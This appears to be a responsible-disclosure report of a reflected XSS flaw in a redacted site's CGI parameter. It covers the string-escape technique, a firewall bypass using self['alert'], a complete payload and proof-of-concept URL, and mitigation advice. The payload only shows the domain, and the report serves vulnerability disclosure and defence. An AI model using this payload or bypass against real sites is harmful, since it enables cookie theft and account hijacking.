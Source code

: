 ﻿# Reflected XSS on \[REDACTED]

## Summary:

The vulnerable parameter is `varset_site`, which reflects the inputted text directly into a `<script>` (JavaScript) tag. The snippet of code that it is inserted to is similar to the following:
```javascript
// https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company={8A245F94-C1FF-4E54-9373-F308EA45FF27},varset_site=injected_text
function func_name() {
  var_name = 'injected_text';
}
```
By using the sequence `'}`, I can escape the string and function entirely:
```javascript
// https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company={8A245F94-C1FF-4E54-9373-F308EA45FF27},varset_site=injected_text';}
function func_name() {
  var_name = 'injected_text'}';
}
```
Now that I am out of the function, I can execute arbitrary JavaScript code. The [REDACTED] Web Application Firewall tried to block my `alert(1)` function, but by playing around with JavaScript I managed to find a different way to execute `alert(1)`, like so:
```javascript
self['alert'](1)
```
I also escaped the rest of the `<script>` tag so that the browser would not complain about errors. Putting this all together, the payload is the following:
```html
text'}self['alert'](document.domain);</script>
```
The `test'}` escapes the JavaScript string and function, then the `self['alert'](document.domain);` executes my JavaScript code. Finally, the `</script>` escapes the script tag and therefore "comments out" any of the other code.

The final proof of concept [link](https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company=%7B8A245F94-C1FF-4E54-9373-F308EA45FF27%7D,varset_site=test%27%7Dself%5B%27alert%27%5D%28document.domain%29;%3C/script%3E):
```
https://[REDACTED]/SRVS/CGI-BIN/WEBCGI.EXE?New,Kb=igud_bashan,Company={8A245F94-C1FF-4E54-9373-F308EA45FF27},varset_site=test%27}self[%27alert%27](document.domain);%3C/script%3E
```

## Impact
Arbitrary JavaScript code execution. In my proof of concept, it prints the domain. However, an attacker could send `document.cookie` to himself in order to hijack accounts, or they could display a phishing page.

## Mitigation
Sanitize all parameters before using them (more information at the [OWASP page](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) regarding XSS prevention):
```
& --> &amp;
< --> &lt;
> --> &gt; 
" --> &quot;
' --> &#x27;
```
